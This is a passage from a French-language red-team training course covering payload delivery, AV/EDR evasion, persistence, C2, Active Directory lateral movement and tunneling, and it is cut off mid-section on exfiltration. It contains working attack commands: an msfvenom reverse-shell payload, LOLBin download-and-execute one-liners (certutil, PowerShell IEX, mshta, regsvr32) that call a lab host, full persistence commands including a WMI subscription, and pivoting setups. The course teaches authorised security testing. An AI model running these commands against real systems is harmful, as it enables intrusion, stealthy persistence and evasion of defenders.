- Penser à la **collecte** : si la victime clique, on doit pouvoir récupérer la preuve sans exposer des données réelles.
- Ne jamais faire de watering hole sans autorisation explicite : toucher à un site tiers est hors de toute légalité.

#### Résumé

Le phishing est l'accès initial roi du red team, car il cible la faille la plus universelle : l'humain. L'exploitation d'applications reste utile quand le périmètre technique est exposé, et le watering hole est réservé aux engagements très spécifiques, avec autorisation expresse.

---

### (e) La livraison de payload : génération, obfuscation, AV/EDR, LOLBins

#### Définition

Une fois le premier contact établi, il faut **livrer** la charge utile : un **payload** (programme ou commande qui va donner un accès). La livraison passe par une chaîne : **génération** (créer le payload), **obfuscation** (le déguiser pour échapper à l'AV et à l'EDR), **livraison** (le faire arriver sur la machine : téléchargement via `certutil`, `bitsadmin`, PowerShell `IEX`…). Les **LOLBins** (*Living Off the Land Binaries*) sont des outils légitimes du système détournés de leur usage pour exécuter ou télécharger du code malveillant sans déposer de binaire.

#### Pourquoi

Parce qu'aujourd'hui, une machine professionnelle a un **AV** (antivirus, détection par signature et heuristique) et souvent un **EDR** (détection comportementale, télémétrie, remédiation). Un payload brut généré par `msfvenom` est connu de toutes les signatures : il est détecté en quelques secondes. Livrer un payload, c'est réussir à faire arriver du code sur la machine **sans déclencher** ces défenses.

> 🍳 **Analogie :** l'AV, c'est le **portier** qui connaît la tête des
> criminels recherchés (signatures) et flaire les comportements bizarres
> (heuristique). L'EDR, c'est un **superviseur** qui regarde chaque employé
> en permanence : qui fait quoi, dans quel ordre, à quelle heure. Pour faire
> entrer un espion dans l'entreprise, il ne suffit pas de changer sa photo
> dans le registre des recherchés (obfuscation de signature) : il faut aussi
> qu'il se comporte comme un employé ordinaire (évasion comportementale).

#### Fonctionnement

**Génération** : `msfvenom` génère des payloads Metasploit (`windows/meterpreter/reverse_tcp`, `windows/x64/meterpreter/reverse_https`…) dans tous les formats (`-f exe`, `-f psh`, `-f c`, `-f raw`).

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.56.1 LPORT=4444 -f exe -o /tmp/payload.exe
msfvenom --list payloads | grep -i "windows/x64/meterpreter"
```

**Obfuscation** — plusieurs familles :

| Famille | Idée | Exemple |
| ------- | ---- | ------- |
| **Encodage** | Refaire la représentation du code (toujours cassable) | encodeur `x86/shikata_ga_nai` de Metasploit |
| **Chiffrement** | Chiffrer le payload, le déchiffrer à l'exécution | charge utile chiffrée par XOR/AES déchiffrée au runtime |
| **Packing** | Compresser/déguiser le binaire dans un « emballage » qui se décompresse au lancement | `upx --best` |
| **Modification de signature** | Changer les octets qui forment la signature | injection dans un binaire légitime, `sigthief` (vol de signature) |
| **Scripting** | Éviter le binaire : tout en PowerShell/VBA, encodé base64 | `-enc`, Invoke-Obfuscation, Veil |

**Livraison via LOLBins** : au lieu de déposer un `.exe`, on détourne des outils de Windows :

```bash
# Téléchargement d'un payload via certutil
certutil -urlcache -split -f http://192.168.56.1:8000/payload.exe C:\Windows\Temp\p.exe

# Téléchargement via bitsadmin
bitsadmin /transfer job /download /priority high http://192.168.56.1:8000/p.exe C:\Windows\Temp\p.exe

# Exécution en mémoire via PowerShell (IEX = Invoke-Expression)
powershell -nop -w hidden -c "IEX (New-Object Net.WebClient).DownloadString('http://192.168.56.1:8000/payload.ps1')"

# Exécution d'un script via mshta (fichier HTA)
mshta http://192.168.56.1:8000/payload.hta

# Exécution via regsvr32 (truc classique appelé « Squiblydoo »)
regsvr32 /s /n /u /i:http://192.168.56.1:8000/payload.sct scrobj.dll
```

#### Architecture

```
payload brut ──► obfuscation (encodage/chiffrement/packing) ──► livraison (LOLBin/IEX)
      │                     │                                        │
      │                   AV : signatures ──► détecté               EDR : comportement ──► analysé
      ▼                     ▼                                        ▼
machine compromise ◄──── passé ? ──────────────────────────── on continue (persistance, C2)
```

#### Cas d'utilisation

- Faire passer un payload sous un AV de test en laboratoire.
- Évaluer un EDR : quelle technique d'évasion est détectée, laquelle ne l'est pas ?
- Respecter les ROE : dans un engagement réel, on teste l'évasion sur des systèmes de labo *avant* de l'utiliser.

#### Exemple réel

L'équipe rouge veut exécuter un beacon Sliver sur un poste protégé par un EDR. Elle ne dépose aucun binaire : elle génère un payload PowerShell chiffré (AES), l'encode en base64, et l'exécute via `powershell -enc`. L'EDR voit une commande PowerShell longue — comportement inhabituel, mais pas assez pour alerter immédiatement. Pendant ce temps, le payload se déchiffre en mémoire et contacte le C2 en HTTPS. C'est la chaîne classique de livraison moderne : **pas de fichier sur disque, pas de binaire, du script en mémoire**.

#### Bonnes pratiques

- Toujours **tester ses payloads** sur un labo identique à l'environnement cible avant l'engagement (VirusTotal est *interdit* en red team : y soumettre un payload le partage avec la défense).
- Varier les méthodes de livraison et ne pas réutiliser un payload qui a été détecté.
- Penser à la **signature** : un payload signé avec un certificat légitime (ou volé) est plus crédible qu'un binaire nu.
- Les encodages (`shikata_ga_nai`) ne trompent plus les AV modernes : l'obfuscation sérieuse est la **recompilation du code source** avec de vrais compilateurs (générer soi-même ses implants en Go, Rust, Nim…).
- Veil et UPX sont pédagogiquement utiles mais désormais largement détectés : à considérer comme des points de départ, pas des solutions finales.

#### Résumé

Livrer un payload, c'est jouer la partie entre obfuscation (le déguiser) et détection (l'AV et l'EDR). La tendance moderne : **zéro fichier sur disque**, du script chiffré en mémoire, livré par des outils légitimes (LOLBins) — pour ne laisser ni signature à trouver ni comportement évident à corréler.

---

### (f) L'exécution et la persistance

#### Définition

L'**exécution** (TA0002) est l'étape où le payload tourne sur la machine. La **persistance** (TA0003) est l'ensemble des mécanismes qui garantissent que l'accès **survit** à un redémarrage, à une déconnexion ou à une session qui se termine. En red team, la persistance est un choix stratégique : plus elle est profonde, plus elle est difficile à nettoyer — mais plus elle est risquée (elle peut être détectée ou « cassée » par une mise à jour).

#### Pourquoi

Parce qu'un accès qui meurt au premier reboot est inutile. Les adversaires réels (APT) installent plusieurs mécanismes de persistance à plusieurs niveaux : si la défense en retire un, les autres restent. En red team, la persistance sert à : continuer l'exercice après coupure, garder un accès pour la phase d'exfiltration, et démontrer à quel point il est difficile de se débarrasser d'un adversaire installé.

> 🍳 **Analogie :** la persistance, c'est **laisser une clé de secours** sous
> le paillasson. Si la porte est verrouillée à nouveau (session fermée,
> reboot), on n'a qu'à se pencher pour récupérer la clé. Les bons adversaires
> cachent plusieurs clés sous plusieurs paillassons différents, pour ne
> jamais rester dehors.

#### Fonctionnement

Les mécanismes Windows classiques (tous des techniques ATT&CK réelles) :

| Mécanisme | Technique ATT&CK | Comment ça marche | Commande |
| --------- | ---------------- | ----------------- | -------- |
| **Scheduled Task** | T1053.005 | Une tâche planifiée relance le payload à l'ouverture de session ou tous les X minutes | `schtasks /create /tn "Upd" /tr "C:\ProgramData\u.exe" /sc onlogon /ru SYSTEM /rl highest /f` |
| **Clé de registre Run** | T1547.001 | Le registre exécute le payload à la connexion de l'utilisateur | `reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v Upd /t REG_SZ /d "C:\ProgramData\u.exe" /f` |
| **Service Windows** | T1543.003 | Un service auto exécute le payload au boot | `sc create Upd binPath= "C:\ProgramData\u.exe" start= auto` |
| **Dossier Startup** | T1547.001 | Fichier exécuté à l'ouverture de session | `copy u.exe "C:\Users\<user>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\"` |
| **WMI Event Subscription** | T1546.003 | Un événement WMI (ex. au boot, toutes les 60 s) déclenche une commande | PowerShell `Set-WmiInstance` (voir démo) |
| **DLL Hijacking** | T1574.001 | Charger sa DLL à la place de celle qu'un programme légitime cherche dans son dossier | placer `version.dll` malveillante à côté d'un exe légitime |

**WMI persistence** — l'exemple complet (déclencheur « au démarrage » via `__InstanceModificationEvent` sur le compteur système) :

```powershell
$filter = Set-WmiInstance -Namespace root/subscription -Class __EventFilter `
  -Arguments @{ Name='SysUpdate'; EventNamespace='root/cimv2'; QueryLanguage='WQL';
    Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System' AND TargetInstance.SystemUpTime > 120" }

$consumer = Set-WmiInstance -Namespace root/subscription -Class CommandLineEventConsumer `
  -Arguments @{ Name='SysUpdate'; CommandLineTemplate="powershell -nop -w hidden -enc <BASE64>" }

Set-WmiInstance -Namespace root/subscription -Class __FilterToConsumerBinding `
  -Arguments @{ Filter=$filter; Consumer=$consumer }
```

Ce trio *EventFilter → EventConsumer → Binding* est la persistance WMI standard : elle ne crée **aucun fichier sur disque** et survit aux reboots.

#### Architecture

```
Machines de persistance possibles (seuil de détection croissant)
┌─────────────────────────────────────────────────────────────┐
│ Startup folder    — visible par l'utilisateur, détectée vite │
│ Run keys (HKCU)   — visible dans le registre                 │
│ Scheduled Task    — visible dans l'outil Planificateur       │
│ Service           — visible dans services.msc                │
│ WMI subscription  — invisible dans l'UI, détectée seulement  │
│                   par recherche dédiée (ex. autoruns)        │
│ DLL hijacking     — dissimulé derrière un exe légitime       │
└─────────────────────────────────────────────────────────────┘
```

#### Cas d'utilisation

- Garder un accès sur la machine d'un collaborateur après son redémarrage quotidien.
- Installer une porte de sortie discrète pour la phase d'exfiltration.
- Démontrer la difficulté du nettoyage : un adversaire qui utilise 3 mécanismes oblige la défense à tous les trouver.

#### Exemple réel

L'équipe rouge a compromis le poste d'un comptable. Elle installe deux persistances : une tâche planifiée qui relance le beacon toutes les 5 minutes (`schtasks`), et une clé Run dans le registre de l'utilisateur. Quand l'utilisateur ferme sa session, la tâche continue de tourner (elle tourne sous `SYSTEM`). Au reboot, la clé Run relance le payload à la connexion suivante. Deux mécanismes indépendants, deux files de résilience.

#### Bonnes pratiques

- En red team, choisir **au moins 2 mécanismes** de persistance sur des systèmes clés, à des niveaux différents.
- Tester la persistance sur le labo : la persistance la plus fréquente qui échoue est celle qui n'a jamais été testée après reboot.
- Penser aux **mises à jour** : un mécanisme qui dépend d'un logiciel mis à jour (un service dont le binaire est remplacé) peut être nettoyé par la mise à jour elle-même.
- Documenter chaque persistance pour le rapport (le client doit savoir la *retirer*).
- Les mécanismes visibles (startup, Run) sont les premiers contrôlés par la défense : les réserver aux machines où le risque de détection est acceptable.

#### Résumé

La persistance transforme un « accès de passage » en « présence durable ». Scheduled Tasks, registre, services, WMI et DLL hijacking sont les briques classiques ; le choix des mécanismes et de leur nombre dépend du niveau de furtivité requis et du risque de détection accepté.

---

### (g) Le C2 (Command & Control)

#### Définition

Le **C2** (*Command and Control*) est le canal par lequel l'attaquant pilote les machines compromises. L'ensemble des serveurs et logiciels qui orchestrent les machines s'appelle le **C2C** (*Command and Control Center*). La pièce installée sur la machine compromise s'appelle le **beacon** (ou *implant*, ou *agent*). Le serveur qui écoute s'appelle le **listener**. Le beacon « sonne » périodiquement vers le listener pour recevoir des ordres : ce rythme s'appelle le **sleep**, et sa variation aléatoire le **jitter**.

#### Pourquoi

Sans C2, chaque machine compromise est une coquille vide : tu ne peux ni lui donner d'ordre, ni recevoir ses résultats. Le C2 est le **système nerveux** de l'engagement. Sa conception décide de la furtivité : un beacon qui dort 5 minutes avec 30 % de jitter (variation aléatoire) est très difficile à distinguer d'un trafic HTTPS normal ; un beacon qui parle en clair toutes les 2 secondes est repéré en quelques minutes. Le choix du C2 dicte aussi l'OPSEC de l'infrastructure (redirectors, domaines, certificats).

> 🍳 **Analogie :** le C2, c'est la **radio du casse**. Le chef (opérateur)
> est à l'extérieur, les complices (beacons) sont à l'intérieur. Ils ne
> parlent pas en continu : ils font un point toutes les X minutes sur un
> canal chiffré, avec des heures de rendez-vous qui varient légèrement
> (jitter) pour ne pas ressembler à une horloge. Si la police (EDR) surveille
> les appels radio, elle doit tomber sur une conversation qui ressemble à du
> bruit ordinaire.

#### Fonctionnement

- **Beacon** : petit programme sur la machine compromise. Il fait « checkout » auprès du listener (HTTP/HTTPS, DNS, ou autre protocole), reçoit les ordres en file d'attente, exécute, renvoie les résultats.
- **Listener** : le point d'écoute du C2, une adresse IP/port qu'annonce l'implant.
- **Sleep / jitter** : intervalle entre deux « checkouts » (ex. `sleep 60` = 60 s) et sa variation aléatoire en pourcentage (ex. `sleep 60 30` = entre 42 et 78 s). Un sleep long = plus discret, mais commandes plus lentes.
- **Malleable C2** : possibilité (Cobalt Strike, mais aussi d'autres) de personnaliser l'apparence du trafic réseau pour qu'il ressemble à un vrai client HTTP (en-têtes, URLs, timing) — pour se fondre dans le trafic légitime.
- **Architecture de confiance** : l'opérateur se connecte au **teamserver** (le serveur du C2), qui gère les listeners et les beacons. En face de l'extérieur, des **redirectors** (proxy) renvoient le trafic vers le vrai teamserver pour cacher son IP réelle.

#### Architecture



#### Outils C2

| Outil | Type | Points forts | Coût |
| ----- | ---- | ------------ | ---- |
| **Sliver** | Open source (Go) | Multi-plateforme, implants sur mesure, commandes d'évasion, stagers, contrôle sur session | Gratuit |
| **Havoc** | Open source (C++) | Interface moderne, démonstration d'évasion, shells de démonstration | Gratuit |
| **Mythic** | Open source (Python/Docker) | Architecture « agent » très modulaire, API, génération de payloads en web UI | Gratuit |
| **Cobalt Strike** | Commercial | Le standard de l'industrie, malleable C2 très fin, historique énorme | **Payant** (licence annuelle par teamserver), usage professionnel ; des alternatives open source (Sliver, Havoc, Mythic) couvrent la majorité des besoins |

#### Cas d'utilisation

- Piloter une flotte de machines compromises pendant toute la durée de l'engagement.
- Choisir le protocole le moins surveillé pour l'environnement (HTTPS sortant autorisé par le pare-feu, DNS presque toujours ouvert).
- Planifier l'infrastructure : rediriger le trafic, séparer l'infra offensive de ton IP réelle.

#### Exemple réel

Avec Sliver, l'équipe rouge génère un implant Windows, crée un listener HTTPS, et le déploie sur le poste compromis. Le beacon est réglé sur `sleep 60` avec 25 % de jitter : il parle environ une fois par minute, sur des heures variables, dans un trafic HTTPS normal. L'opérateur se connecte au teamserver depuis sa console, voit `sessions`, bascule en `shell`, télécharge un outil de privesc, et lance le pivot vers le réseau interne. Toute la séquence passe par un redirector qui masque l'IP réelle du teamserver.

#### Bonnes pratiques

- **Monter l'infra C2 en amont**, avant l'accès initial : teamserver, redirectors, domaines, certificats. En plein engagement, tu n'as pas le temps.
- Choisir des **protocoles et ports autorisés** par l'environnement (HTTPS 443 d'abord ; DNS pour les sauvetages).
- Régler sleep/jitter en fonction du besoin : court pour agir vite, long pour être discret.
- **Varier les C2** et les protocoles selon les machines : la redondance évite la perte totale si un listener est découvert.
- Garder l'infra offensive **séparée** de ton identité : IP réelle masquée, domaines qui ne mènent pas à toi, certificats valides.
- En labo, tester chaque étape : génération, listener, redirector, sleep, exécution — avant de compter dessus.

#### Résumé

Le C2 est le système nerveux de l'engagement : un beacon discret qui sonne périodiquement vers un listener, une infrastructure (teamserver + redirectors) qui masque l'opérateur, et un choix de protocole adapté à l'environnement. Sliver, Havoc et Mythic sont les alternatives open source crédibles à Cobalt Strike.

---

### (h) L'évasion réseau et hôte

#### Définition

L'**évasion** regroupe tout ce qui permet au trafic et aux artefacts d'un engagement de ne pas être identifiés. Côté **réseau** : chiffrer le trafic C2, l'encapsuler dans des protocoles autorisés (HTTPS, DNS), utiliser des canaux discrets (DNS over HTTPS, domain fronting). Côté **hôte** : éviter les signatures, éviter les comportements détectés (écriture de fichiers suspects, commandes PowerShell anormales), et utiliser des outils légitimes pour faire le sale boulot (LOLBins).

#### Pourquoi

Parce que la défense moderne corrèle *réseau* et *hôte* : un beacon qui parle HTTP en clair, c'est une alerte ; une commande PowerShell exécutée avec `-enc` sur un poste, c'est une alerte ; un fichier `.exe` dans le dossier de téléchargement, c'est une alerte. L'évasion ne se joue pas sur un seul axe : elle se joue sur **tous les axes à la fois**, pour ne donner à la défense aucun signal net à corréler.

> 🍳 **Analogie :** l'évasion, c'est **se fondre dans la foule**. Pas une
> seule ruse spectaculaire, mais dix détails ordinaires : une tenue banale,
> un pas normal, un téléphone qui sonne comme les autres, un visage connu
> du voisinage. Le détective (EDR/SOC) ne voit aucune anomalie prise
> isolément, et n'a donc rien à corréler.

#### Fonctionnement

**Évasion réseau :**

| Mécanisme | Principe | Exemple réel |
| --------- | -------- | ------------ |
| **HTTPS** | Chiffrer le C2 dans un trafic web légitime | listener `http`/`https` de Sliver sur 443 |
| **DNS** | Encapsuler les ordres dans des requêtes DNS (quasi jamais filtré) | dnscat2, iodine, scripts DNS exfil |
| **DNS over HTTPS (DoH)** | Envelopper les requêtes DNS dans du HTTPS pour échapper à l'inspection DNS | résolveur DoH (Cloudflare 1.1.1.1) pour les requêtes C2 |
| **Domain fronting / CDN** | Cacher le vrai serveur derrière un CDN partagé | requêtes vers un CDN, hôte virtuel relayé |
| **Redirectors** | Proxy externe qui renvoie le trafic au vrai teamserver | `socat`, nginx, VPS jetable |
| **Tunneling chiffré** | Encapsuler tout le trafic interne dans un canal chiffré | chisel, ligolo-ng, SSH (voir section j) |

**Évasion hôte :**

| Mécanisme | Principe | Exemple réel |
| --------- | -------- | ------------ |
| **Zéro fichier** | Tout en mémoire, rien sur disque | PowerShell `IEX` chargé en mémoire |
| **Commande encodée** | Éviter les chaînes lisibles dans les logs | `powershell -enc <base64>` |
| **LOLBins** | Détourner les outils légitimes | `certutil`, `mshta`, `regsvr32`, `bitsadmin` |
| **Masquage** | Donner l'apparence d'un processus légitime | renommer un beacon, DLL sideloading |
| **Amplitude du bruit** | Faire peu de choses, lentement | sleep long, jitter, éviter les scans massifs |

#### Architecture

```
          Attaquant ──► [VPS public / CDN] ──► [TeamServer réel]
                                 │
                                 ▼  HTTPS 443 (inspection : semble normal)
                            [Beacon]  ──►  [machine compromise]
                                 │
                                 ▼  canal interne chiffré (chisel/SSH)
                            [pivot] ──► [réseau interne]
```

#### Cas d'utilisation

- Faire passer un beacon HTTPS derrière un pare-feu qui ne laisse passer que 443.
- Utiliser DNS comme canal de secours quand HTTPS est surveillé.
- Évaluer un EDR : quelles de ces techniques sont détectées sur le labo ?

#### Exemple réel

Dans un engagement, le pare-feu de la cible ne laisse sortir que le HTTPS et le DNS. L'équipe rouge configure un listener HTTPS sur 443 (port qui ressemble à du web classique), et garde un canal DNS de secours (script d'exfil DNS) au cas où le HTTPS serait filtré. Sur les postes, aucune exécution de binaire : tout passe par PowerShell en mémoire, avec des commandes courtes et des retards entre chaque étape, pour que le SOC ne voie qu'un poste « normal ».

#### Bonnes pratiques

- **Réseau et hôte ensemble** : chiffrer le trafic *et* réduire le bruit local ; les deux sont corrélés.
- Tester ses canaux d'évasion sur le labo et **simuler l'inspection** (proxy, pare-feu applicatif) avant l'engagement.
- Toujours prévoir un **canal de secours** (un second protocole, un second listener) au cas où le premier est découvert.
- Ne jamais oublier l'évasion **temporelle** : ce n'est pas seulement quoi on envoie, c'est quand et à quel rythme.

#### Résumé

L'évasion est une discipline transversale : chiffrer et déguiser le trafic (HTTPS, DNS, DoH, redirectors) côté réseau, limiter les artefacts et les comportements détectables côté hôte, et garder un canal de secours. L'adversaire qui réussit est celui qui ne donne aucun signal net à corréler.

---

### (i) La latéralité et l'escalade dans le domaine

#### Définition

La **latéralité** (TA0008) est le mouvement d'une machine à une autre à l'intérieur du réseau. Dans un domaine Active Directory, elle consiste à utiliser les relations, les droits et les identifiants du domaine pour passer du poste d'un employé à un serveur, puis à un contrôleur de domaine. L'**escalade** consiste à augmenter ses privilèges (utilisateur → administrateur local → administrateur de domaine). Tu as déjà les bases (niveau 9) : ici on approfondit les angles « nouveaux » : **domain trusts** (relations d'interconfiance entre domaines), **cross-forest** (passage entre forêts AD), **ACL abuse** (abus des listes de contrôle d'accès), **GPO abuse** (détournement des politiques de groupe) et **Kerberos delegation** (délégations Kerberos).

#### Pourquoi

Parce que dans une grande organisation, les crown jewels sont rarement sur le poste de la première victime. Le chemin complet — phishing sur un employé → élévation sur son poste → vol d'un compte de service → latéralité vers le serveur de fichiers → DCSync sur le domaine → accès aux données — est la vraie forme d'une attaque moderne. Connaître les mécanismes AD avancés, c'est savoir quel chemin prendre (et lequel éviter : certains sont très bruyants).

> 🍳 **Analogie :** le domaine AD est un **immeuble de bureaux**. Chaque
> machine est une pièce, chaque compte une carte de badge. Le red teamer
> commence dans le hall (poste compromis) avec un badge bas de gamme. La
> latéralité, c'est trouver les pièces où le badge passe (partages SMB,
> RDP), les collègues qui ont laissé leur badge (identifiants), et les
> couloirs qui mènent aux archives (serveurs sensibles). Les ACL et GPO,
> c'est la **liste des autorisations d'accès** affichée sur chaque porte :
> parfois on découvre qu'un badge de visiteur ouvre la salle des coffres.

#### Fonctionnement

**Rappels AD (niveau 9)** : le **domaine** est une frontière de gestion ; le **contrôleur de domaine (DC)** centralise l'authentification Kerberos (tickets TGT/TGS) et NTLM ; les **GPO** (*Group Policy Objects*) appliquent des configurations à des machines/utilisateurs ; **BloodHound** cartographie les chemins d'attaque (qui peut faire quoi) ; **mimikatz**/`impacket` volent identifiants et tickets.

**Nouveaux angles :**

| Angle | Principe | Technique ATT&CK | Exemple d'outil |
| ----- | -------- | ---------------- | --------------- |
| **Domain trust** | Deux domaines se « font confiance » ; des tickets de l'un peuvent servir dans l'autre (SIDHistory, TGT interdomaine) | T1558 / T1021 | `impacket` (`secretsdump`, `wmiexec`), `mimikatz` |
| **Cross-forest** | Entre forêts (forêts AD distinctes reliées), un trust est l'occasion de passer | T1021 | `adfind`, BloodHound cross-forest |
| **ACL abuse** | Une ACL accorde des droits sur un objet (ex. `GenericAll` sur un compte, `WriteDacl` sur un groupe) ; on peut modifier l'objet pour se donner des droits | T1222 / T1543 / T1098 | PowerView, `bloodyAD`, `impacket` (`ntlmrelayx`) |
| **GPO abuse** | Une GPO qu'on peut modifier (droits sur la GPO ou sur l'OU) permet d'exécuter des commandes sur toutes les machines de l'OU | T1543 / T1053 | `SharpGPOAbuse` |
| **Kerberos delegation** | Une machine/compte autorisé à « agir pour » un utilisateur (délégation non contrainte, contrainte, basée sur les ressources) peut s'emparer des tickets des utilisateurs qui le contactent | T1558.001/.002 | Rubeus, `impacket` (`getST`) |

#### Architecture

```
Poste employé ──► (ACL abuse : GenericAll sur compte de service)
        │
        ▼
Compte de service ──► (Kerberos delegation : obtenir un ticket admin)
        │
        ▼
Serveur applicatif ──► (GPO abuse sur l'OU "Serveurs")
        │
        ▼
DC ──► DCSync (mimikatz lsadump::dcsync) ──► krbtgt ──► Golden Ticket (T1558.001)
```

#### Cas d'utilisation

- Passer d'un domaine métier à un domaine de gestion via un trust.
- Transformer une ACL inoffensive (`GenericWrite` sur un utilisateur) en compromission complète de son compte.
- Utiliser une délégation Kerberos mal configurée pour obtenir un ticket d'administrateur sans jamais toucher au DC.

#### Exemple réel

Dans un environnement à deux domaines (`CORP.LOCAL` et `HQ.CORP.LOCAL`) reliés par un trust, l'équipe rouge compromet un poste dans `CORP`. Avec BloodHound, elle découvre qu'un compte de service de `CORP` a une délégation non contrainte sur un serveur d'`HQ`. En forçant un admin d'`HQ` à s'authentifier sur ce serveur (par exemple en pointant un partage réseau), elle capture son ticket, forge une `Silver Ticket` (T1558.002) pour accéder aux services cibles, et atteint les données — sans jamais déclencher une seule alerte sur le DC d'`HQ`.

#### Bonnes pratiques

- **Cartographier d'abord** (BloodHound) : chaque mouvement doit être justifié par un chemin vérifié, pas par du tâtonnement bruyant.
- Connaître les techniques **bruyantes** à éviter quand la discrétion compte : Kerberoasting (T1558.003) et les scans de masse génèrent des alertes classiques.
- Préférer les techniques discrètes quand c'est possible : réutilisation d'identifiants (`Pass-the-Hash`, `Pass-the-Ticket`, T1550), tickets existants, ACL.
- Toujours **documenter le chemin** pour le rapport : la valeur pour le client, c'est le scénario complet, pas une liste d'outils.

#### Résumé

La latéralité AD avancée joue avec les relations du domaine : trusts, forêts, ACL, GPO et délégations Kerberos sont autant de chemins pour atteindre les privilèges maximaux. Le red teamer moderne cartographie (BloodHound), choisit les chemins discrets, et documente chaque pas en référence ATT&CK.

---

### (j) Le mouvement latéral via tunnels : chisel, ligolo-ng, SSH, proxychains

#### Définition

Le **tunneling** consiste à transporter un trafic à travers un autre canal (souvent chiffré) pour contourner une restriction réseau. Les outils principaux en red team : **chisel** (tunnel TCP/UDP chiffré avec mode SOCKS, un seul binaire Go), **ligolo-ng** (tunnel de niveau 3 qui crée une interface virtuelle complète sur ta machine d'attaque), **SSH** avec ses options de redirection (`-L` local, `-D` dynamique/SOCKS, `-R` inverse), et **proxychains** (outil qui force un programme à passer par un proxy SOCKS, par exemple pour scanner à travers un tunnel).

#### Pourquoi

Parce que la segmentation réseau est le plus grand obstacle d'un red team après le domaine : le poste compromis peut voir le serveur de fichiers, mais pas le contrôleur de domaine. Pour atteindre les machines du « réseau interne », il faut soit se faire passer par une machine qui y a accès (pivot), soit créer un **canal** à travers cette machine. Le tunnel transforme la machine compromise en **passerelle**, et l'opérateur peut utiliser ses outils habituels (nmap, impacket…) comme s'il était branché au réseau interne.

> 🍳 **Analogie :** le tunneling, c'est **la ruse du facteur**. Le réseau
> interne est une rue privée avec une barrière (pare-feu) qui refuse
> l'entrée aux inconnus. Le facteur (machine compromise) a le droit de la
> franchir. Tu glisses tes lettres (paquets) dans son sac (le tunnel
> chiffré), il les dépose de l'autre côté, et les lettres ressortent comme si
> elles étaient arrivées avec lui.

#### Fonctionnement

**Chisel** — un binaire côté client, un côté serveur, trafic chiffré par défaut :

```bash
# Sur ta machine d'attaque (serveur, mode reverse) :
./chisel server -p 8080 --reverse

# Sur la machine compromise (client) : ouvre un tunnel inverse vers toi.
# Le 1080 devient un proxy SOCKS5 sur TA machine :
./chisel client 192.168.56.1:8080 R:1080:socks

# Variante : rediriger un port précis (ex. RDP d'une machine interne) :
./chisel client 192.168.56.1:8080 R:9000:10.0.0.5:3389
```

**Ligolo-ng** — crée un tunnel de niveau 3 (une vraie interface réseau sur ta machine) :

```bash
# Sur ta machine (proxy) :
sudo ip tuntap add user $(whoami) mode tun ligolo
sudo ip link set ligolo up
./proxy -selfcert

# Dans la console du proxy, une fois l'agent connecté :
#   sessions          → lister les agents
#   tunnel            → sélectionner la session
#   start             → activer le tunnel

# Sur la machine compromise (agent) :
./agent -connect 192.168.56.1:11601 -ignore-cert

# Sur ta machine (route vers le réseau interne à travers le tunnel) :
sudo ip route add 10.10.0.0/24 dev ligolo
```

**SSH** — souvent déjà présent, aucun binaire à déposer :

```bash
# -L : port local → destination à travers le jump host (port forwarding local)
ssh -N -L 8080:10.0.0.5:80 user@192.168.56.20

# -D : proxy SOCKS dynamique sur ta machine (le 1080 sert de proxy)
ssh -N -D 1080 user@192.168.56.20

# -R : port inverse (utile si la cible ne peut pas rejoindre ton IP)
ssh -N -R 2222:127.0.0.1:22 user@ton_serveur_public
```

**Proxychains** — fait passer un programme par un proxy SOCKS :

```bash
# Fichier de conf : /etc/proxychains4.conf (ou /etc/proxychains.conf)
#   Ajouter en bas :  socks5 127.0.0.1 1080

# Scanner à travers le tunnel (obligatoire : -sT car SYN scan non supporté, -Pn)
proxychains4 -q nmap -sT -Pn 10.0.0.5
```

#### Architecture

```
Attaquant  ──►  machine compromise (passerelle)  ──►  réseau interne 10.0.0.0/24
    │                     │
    │        tunnel chiffré (chisel/ligolo/SSH)
    │                     │
    └── proxychains ──────┘  →  nmap, impacket, rdesktop
```

#### Cas d'utilisation

- Scanner et exploiter les services d'un réseau interne isolé (pivot).
- Utiliser un outil graphique (ex. RDP) à travers le tunnel.
- Se servir du pivot pour atteindre un contrôleur de domaine qui n'est visible que depuis le réseau interne.

#### Exemple réel

L'équipe rouge a compromis un serveur web qui possède une seconde carte réseau vers `10.10.0.0/24`. Sur ce serveur, elle lance l'agent ligolo-ng vers sa machine d'attaque. Le proxy crée l'interface `ligolo`, et l'opérateur ajoute la route `10.10.0.0/24 dev ligolo`. Il lance alors `proxychains4 nmap -sT -Pn 10.10.0.20` : le contrôleur de domaine interne apparaît avec SMB et RDP ouverts. Il utilise ensuite `impacket` à travers le même tunnel pour tester les identifiants volés — tout le trafic passe par le tunnel chiffré, jamais par le réseau réel de l'entreprise.

#### Bonnes pratiques

- Toujours **chiffrer** ses tunnels (chisel et ligolo le font par défaut ; SSH aussi).
- Tester le tunnel **avant** l'engagement (la latence, la taille des paquets, la détection par un éventuel filtrage).
- Préférer le **mode reverse** quand la cible ne peut pas te joindre directement.
- Avec proxychains + nmap, penser à `-sT` et `-Pn` (le SYN scan et la découverte ICMP ne passent pas par un proxy SOCKS).
- Ne pas oublier que le tunnel passe par la machine compromise : si elle est découverte, le tunnel l'est aussi. Prévoir un second chemin.

#### Résumé

Les tunnels font des machines compromises des passerelles : chisel et ligolo-ng apportent des tunnels chiffrés faciles à déployer (un seul binaire), SSH exploite les outils déjà présents, proxychains branche n'importe quel programme sur le tunnel. C'est le cœur de la latéralité réseau.

---

### (k) L'exfiltration de données

#### Définition

L'**exfiltration** (TA0010) est l'action de faire sortir des données de l'organisation de manière contrôlée — le plus souvent discrète. En red team, on n'exfiltre jamais de vraies données : on exfiltre des **canaris** (fichiers factices fournis par le client, ex. `canary_finance.xlsx`) ou des preuves minimales, sous contrôle strict des ROE. Les voies classiques : via le **canal C2** (T1041), via un **protocole alternatif** (T1048 : DNS, HTTP(S) vers un serveur que tu contrôles, e-mail), via la **stéganographie** (cacher des données dans une image), avec des **bandes limitées** (ralentir volontairement pour ne pas attirer l'attention).

#### Pourquoi

Parce que sortir des données est l'un des objectifs finaux d'un adversaire, et l'un des comportements les plus surveillés : les outils **DLP** (*Data Loss Prevention*), les pare-feu applicatifs et les SOC surveillent les gros transferts sortants, les archives compressées envoyées vers l'extérieur, les e-mails avec pièces jointes inhabituelles. Exfiltrer discrètement, c'est réussir à envoyer des données sans que le volume, le format ou la destination ne déclenche d'alerte.

> 🍳 **Analogie :** exfiltrer, c'est **sortir un trésor d'un musée**.
> Le voler la nuit en coupant les alarmes est trop bruyant. Mieux : le
